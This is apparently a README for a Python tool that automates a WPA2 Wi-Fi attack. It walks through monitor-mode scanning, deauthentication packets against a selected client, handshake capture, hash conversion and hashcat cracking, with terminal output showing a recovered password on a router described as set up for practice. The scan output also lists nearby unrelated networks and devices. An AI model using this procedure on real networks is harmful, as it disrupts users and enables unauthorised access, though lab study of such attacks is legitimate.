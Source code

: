 # Detailed Instructions for Using the "wifi-attack-automation-tool"

Before running the script `wifi-attack-automation-tool.py`, it is essential to have **root privileges**, as the applications used by the script require these permissions.

Once the necessary privileges have been obtained, proceed to execute the script using the following command:

```
# wifi-attack-automation-tool.py
```

The script itself will verify whether the required **Python packages and system tools** are installed for proper operation.

```
# ./wifi-attack-automation-tool.py 
[2025-06-27 20:27:56.685] <inf> Verifying required Python packages:
[2025-06-27 20:27:56.685] <inf> print_helper_logger is installed
[2025-06-27 20:27:56.685] <inf> scapy is installed
[2025-06-27 20:27:56.685] <inf> deauth_lib is available
[2025-06-27 20:27:56.685] <inf> All required Python packages are ready
[2025-06-27 20:27:56.948] <inf> Verifying required tools:
[2025-06-27 20:27:56.948] <inf> iw found
[2025-06-27 20:27:56.948] <inf> ifconfig found
[2025-06-27 20:27:56.949] <inf> iwconfig found
[2025-06-27 20:27:56.949] <inf> airodump-ng found
[2025-06-27 20:27:56.949] <inf> hcxpcapngtool found
[2025-06-27 20:27:56.949] <inf> hashcat found
[2025-06-27 20:27:56.949] <inf> All tools are ready. System check passed
[2025-06-27 20:27:56.955] <inf> Interfaces that support monitor mode:
[2025-06-27 20:27:56.955] <inf> 1.   wlx00e0202d05b8
Select an interface by number: 1
```

Next, a list of available **network interfaces capable of monitor mode** will be displayed. You must select the desired one; in our case, it is the interface named `wlx00e0202d05b8`, so we choose **option number 1**.

At this point, the script will:
- Configure the selected interface in **monitor mode**.
- Prepare the environment to scan available wireless networks, including:
  - Access Points (AP)
  - Devices connected to them.

```
 CH  1 ][ Elapsed: 12 s ][ 2025-06-27 20:28 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 D0:57:94:70:24:76   -1        0        0    0  -1   -1                    <length:  0>
 CC:D4:A1:83:05:2F   -1        0        0    0  -1   -1                    <length:  0>
 88:DE:7C:A2:91:9F   -1        0        0    0  -1   -1                    <length:  0>
 60:8D:26:FA:ED:11   -1        0        0    0  -1   -1                    <length:  0>
 DC:51:93:D5:0A:F2   -1        0        0    0  -1   -1                    <length:  0>
 2C:96:82:DD:4F:80  -52       38        4    0   6  648   WPA2 CCMP   PSK  MOVISTAR-WIFI6-4F80
 EC:BE:DD:AD:08:96  -60       44       12    0   9  195   WPA2 CCMP   PSK  HACK_ME
 34:60:F9:6A:95:62  -68       39        2    0   6  130   WPA2 CCMP   PSK  MOVISTAR-WIFI6-4F80_EXT
 F4:1E:57:06:AA:F3  -69       19        6    0   1  360   WPA3 CCMP   SAE  OSCVER

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 60:8D:26:FA:ED:11  CC:8C:BF:3C:38:05  -57    0 - 1     13      107     
 (not associated)   68:A0:3E:4E:E3:F9  -61    0 - 1      0       13    
 2C:96:82:DD:4F:80  EC:0B:AE:6E:CE:B1  -57    0 - 1e     0        1   
 2C:96:82:DD:4F:80  F4:CE:46:52:FD:7E  -73   54e- 1      0        3   
 2C:96:82:DD:4F:80  36:60:F9:0A:95:62  -73    0 - 1e     0        2   
 EC:BE:DD:AD:08:96  F6:B1:11:45:98:25  -51    0 - 1e   528       49    
 F4:1E:57:06:AA:F3  EE:12:4A:F6:F6:4E  -33    0 -24      0        6   
 F4:1E:57:06:AA:F3  44:07:0B:A9:BD:11  -57    0 - 1e     0        2
```

Once the **target network** has been identified (for example, the AP `HACK_ME` with BSSID `EC:BE:DD:AD:08:96`), we also select the **associated device** to which we will send **DeAuth packets**. In this example, the device `F6:B1:11:45:98:25`.

The objective is to **force its disconnection** in order to capture the **handshake** when it attempts to reconnect.

By stopping the scan with `Ctrl+C`, the script will analyze the devices connected to valid access points and display a list of them.

```
Quitting...
[2025-06-27 20:28:17.570] <wrn> (airodump-ng) Execution interrupted by user (CTRL+C)
[2025-06-27 20:28:17.570] <inf> 📋 Available targets with valid channels:
[2025-06-27 20:28:17.570] <inf> 1) F4:CE:46:52:FD:7E → BSSID: 2C:96:82:DD:4F:80 (Channel 6)
[2025-06-27 20:28:17.570] <inf> 2) F6:B1:11:45:98:25 → BSSID: EC:BE:DD:AD:08:96 (Channel 9)
[2025-06-27 20:28:17.570] <inf> 3) EC:0B:AE:6E:CE:B1 → BSSID: 2C:96:82:DD:4F:80 (Channel 6)
Enter the number of the client to target:
```

We will then be prompted to **select the device to attack**, i.e., the one to which we will send the DeAuth packets. In this case, we select **option number 2**.

```
Enter the number of the client to target: 2
[2025-06-27 20:28:20.822] <inf> 🎯 Target selected: F6:B1:11:45:98:25 → AP: EC:BE:DD:AD:08:96 on channel 9
Enter number of deauth packets to send [default: 25]:
```

Next, we need to specify **how many DeAuth packets** we want to send:
- If no value is entered, the **default** is **25 packets**.
- By default, they will be sent **every 0.5 seconds**.

Once the number of packets is confirmed:
- A process will open using `airodump-ng` to **listen on the channel** corresponding to the selected AP (in this example, **channel 9**).
- Simultaneously, another process will start to **send the DeAuth packets**.

```
 CH  9 ][ Elapsed: 12 s ][ 2025-06-27 20:28 ][ WPA handshake: EC:BE:DD:AD:08:96

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 EC:BE:DD:AD:08:96  -61   0       89       13    0   9  195   WPA2 CCMP   PSK  HACK_ME

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 EC:BE:DD:AD:08:96  F6:B1:11:45:98:25  -45    1e-11      0       60  PMKID
 EC:BE:DD:AD:08:96  CC:8C:BF:3C:38:05  -61    0 - 1     36       24    
```

After the attack is completed, the **capture process will automatically close**.

```
Sent 25 packets.
[2025-06-27 20:28:36.476] <inf> Stopping handshake capture...
```

Subsequently, the tool `hcxpcapngtool` will be used to **convert the `.cap` file generated by `airodump-ng` into a hash format**.

```
[2025-06-27 20:28:36.492] <inf> Convert pcap to hash using hcxpcapngtool
[2025-06-27 20:28:36.500] <inf> (hcxpcapngtool) Conversion successful: /home/oscargomezf/GIT/wifi-attack-automation-tool/captures/wpa2.hc22000
[2025-06-27 20:28:36.500] <inf> /home/oscargomezf/GIT/wifi-attack-automation-tool/captures/wpa2.hc22000: WPA*01*70b128dd915b8008211276e7673bfcae*ecbeddad0896*f6b111459825*4841434b5f4d45***
WPA*02*99ce70ae05369a5d6ec44d7994b8c057*ecbeddad0896*f6b111459825*4841434b5f4d45*9d1be82bcaf2959f56f5f8590cf74329ed4366a4ff8f4f9ee8e65149bd079ef6*0103007502010a0000000000000000001214224b234a0f9cad89d23411447194488f4f405dfda032e44930ec793b934e8e000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001630140100000fac020100000fac040100000fac020000*00
```

The next step is to select the wordlist you want to use for brute force:

```
[2025-06-27 20:28:36.500] <inf> Trying to crack the hash using Hashcat
[2025-06-27 20:28:36.500] <inf> Available wordlists:
[2025-06-27 20:28:36.500] <inf> 1. rockyou.txt
[2025-06-27 20:28:36.500] <inf> 2. alleged-gmail-with-count.txt
[2025-06-27 20:28:36.500] <inf> 3. 500-worst-passwords.txt
[2025-06-27 20:28:36.500] <inf> 4. hotmail.txt
[2025-06-27 20:28:36.500] <inf> 5. No search password
Select the wordlist you want to use: 1
```

Once you have selected the wordlist, and with the hash file ready, the tool `hashcat` will be used along with the password list `rockyou.txt` to **perform a brute-force attack** in an attempt to **crack the password**.

> ⏳ **Note:** The time required will depend on the size of the wordlist.

```
[2025-06-27 20:28:50.588] <inf> You selected: /home/oscargomezf/GIT/wifi-attack-automation-tool/wordlists/rockyou.txt
[2025-06-26 20:28:50.798] <inf> This task may take several minutes...
[2025-06-26 23:41:57.437] <wrn> Password found: pipeylaura
```

Finally, if the process is successful, the **recovered password will be displayed** (for example, `pipeylaura`).

As a **final step**, the script will **return the WiFi interface to its original state**.

```
[2025-06-26 23:41:57.437] <inf> Restoring interface to mode: managed
```

---

## Additional Notes

- **Note 1:** It is recommended to run the script within a **Python virtual environment** to avoid dependency conflicts.

- **Note 2:** The router with SSID `HACK_ME` has been prepared **exclusively for this practice**.
  - **Security:** WPA + WPA2
  - **Key:** Randomly selected from the `rockyou.txt` wordlist: pipeylaura
